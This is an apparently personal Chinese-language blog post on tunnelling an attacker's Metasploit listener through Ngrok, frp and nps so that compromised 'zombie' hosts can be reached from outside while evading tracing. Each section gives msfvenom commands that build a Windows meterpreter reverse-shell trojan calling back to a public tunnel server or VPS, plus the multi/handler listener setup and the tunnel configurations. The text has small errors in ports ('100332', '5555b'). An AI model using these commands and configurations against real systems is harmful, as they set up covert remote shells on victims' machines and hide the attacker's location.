 ```yaml
---
layout: post
title: 内网穿透实验
date: 2024-03-13 23:23 +0800
categories: [内网] 
tags: [穿透,通信]
img_path: /img/Intranet/
---
```


旨在代理连接肉鸡后实现本地渗透肉鸡网络架构。

优点：穿透加密数据，中间平台，防追踪，解决网络问题

vps_ip : 47.xxx.xxx.xxx

攻击机_ip : 192.168.207.140

靶机_ip ： 192.168.31.220

~~注：校园网可能会导致实验失败！~~

## Ngrok

网址：https://www.ngrok.cc

#### 开通Ngork隧道

首先，我们需要在Ngork中购买一个隧道：

![截图](171a0a90c7b9823a0a0f4eabf66b090b.png)

此处，我们开通后，当我们访问free.idcfengye.com:10033这个url时候，该服务器就会将我们的数据转发到本地的2222端口上。

因此，在后续的使用渗透过程中，我们可以将攻击机穿透到这个公网服务器上。然后创建木马，让靶机将数据发送到`free.idcfengye.com:100332`上，然后该服务器再将10032端口上的数据转发到攻击机的2222端口，此时我们在监听2222端口即可接受靶机的数据。

### 内网攻击机连接服务器

使用命令：

```cmd
./sunny clientid 【ID】
```

![截图](83f17cc477b9cf117e547835bc042e74.png)

### 渗透过程

- 创建木马

```bash
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=free.idcfengye.com LPORT=10033 -f exe -o yuan.exe
```

注意这里的lhost和lprot ==》 一定是要将数据传到隧道服务器的10033上，才能转到攻击机上

- 开启msfconsole监听

```bash
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 2222
run
```

![截图](d74953b00332e66bf52238631d6c9fa2.png)

## Frp

与ngrok同理，我们需要上线攻击机的msf。

### 攻击机映射到服务器端

准备好一台vps，然后上传frp到服务器段，并使得common下的配置如下：

```bash
[common]
server_addr = 127.0.0.1
server_port = 7000  
```

然后启动服务器端：

```bash
./frps -c ./frps.ini
```

将frp上传到攻击机上，并作出如下配置：

```sass
[common]
server_addr = 【vps ip】
server_port = 7000        #frpc工作端口，必须和上面frps保持一致
[msf]
type = tcp
local_ip = 127.0.0.1
local_port = 5555          #转发给本机的5555
remote_port = 6000  
```
{: file='frp配置'}

![截图](b90f84daa2239508a380520ad30e64ef.png)

### 创建木马，并连接shell

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=【vps_ip】 lport=6000 -f exe -o frp.exe
```

msfconsole:

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 5555b
exploit
```

![截图](40b690ffcf3c1311f439058294b0aa9d.png)

## nps

nps 是一款图形化界面的改进版frp，旨在方便用户更加容易配置以及具备更多的功能！

### 服务器端

- 安装并启动nps：

```bash
./nps install
./nps
```

随后访问： http://vps_ip:8080

账户密码： admin/123

![截图](3f3774eff3a280c6a634248e4cf11053.png)

- 创建客户端，生成密匙

![截图](4c4e5f468d77408b5cf12f024b1272a9.png)

- 添加协议隧道，绑定指向

![截图](980b077227bc2b3aa93614ad9b99e8ad.png)

![截图](eef42a58ca429be9390d445b6edad698.png)

### 客户端连接

```bash
./npc -server=vps_ip:8024 -vkey=  #创建客户端后自动生成密钥
```

8024端口是该服务默认的连接映射端口！

![截图](fc8860e76ad4282e8cefadfda78ddb21.png)

### 生成木马并攻击

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=vps_ip lport=6006 -f exe -o frp.exe
```

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 127.0.0.1
set LPORT 2223
exploit

```
